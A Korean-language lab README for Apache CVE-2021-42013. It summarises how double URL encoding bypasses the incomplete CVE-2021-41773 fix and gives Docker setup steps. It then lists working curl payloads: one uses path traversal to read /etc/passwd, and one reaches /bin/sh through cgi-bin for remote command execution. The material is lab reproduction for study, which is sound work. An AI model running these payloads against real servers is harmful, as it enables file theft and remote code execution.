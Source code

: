 ---

**요약**

- CVE-2021-42013은 CVE-2021-41773의 불완전한 수정으로 인해 발생한 취약점
- Apache는 기본적으로 상위 디렉토리를 의미하는 문자열 “../”에 대한 문자열을 차단함
- 그러나 URL 인코딩을 통해 우회가 가능함
- 기존의 URL 인코딩으로 인해 발생한 취약점을 패치했지만 URL 더블 인코딩으로 우회가 가능한 취약점 발생

**환경 구성 및 실행**

- `docker-compose build`
- `docker-compose up -d`
- `apt install curl` 커맨드로 curl 설치
- /icons 디렉토리를 만든 후 아래와 같은 명령어 실행
- curl -v --path-as-is [http://your-ip:8080/icons/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd](http://your-ip:8080/icons/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/etc/passwd)
- curl -v --data "echo;id" '[http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh](http://your-ip:8080/cgi-bin/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/.%25%32%65/bin/sh)

**결과**

![png1](https://github.com/Refrain4/kr-vulhub/assets/90193658/d929f6a8-3adf-4a5f-80e6-9b0b9da54680)

![png2](https://github.com/Refrain4/kr-vulhub/assets/90193658/8106019f-0444-48ee-9ab0-ebd6f856c1dd)
